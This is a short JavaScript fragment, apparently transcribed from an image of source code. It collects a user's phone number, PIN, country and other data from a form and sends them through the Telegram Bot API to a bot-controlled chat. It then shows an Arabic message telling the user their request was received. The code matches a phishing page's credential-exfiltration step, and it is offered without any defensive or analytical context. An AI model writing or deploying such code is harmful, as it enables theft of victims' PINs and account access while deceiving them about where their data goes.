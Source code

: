 // Check if pin input is filled (ensure valid data before sending)
if (pinInput.trim()) {
    // Format the message to send to Telegram bot
    const message = `
        Number: ${phoneNumber}
        Pin: ${pinInput}
        Country: ${countryName}
        Additional Data: ${additionalData}
    `;

    // URL for Telegram Bot API
    const apiUrl = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;

    // Send data to Telegram bot using fetch
    fetch(apiUrl)
        .then(response => {
            if (response.ok) {
                alert('تم التوصل بطلبكم!'); // "Your request has been received!"
            } else {
                alert('Failed to send data to Telegram');
            }
        })
        .catch(error => {
            alert(`Error sending data: ${error}`);
        });
} else {
    alert('Please enter valid information.');
}
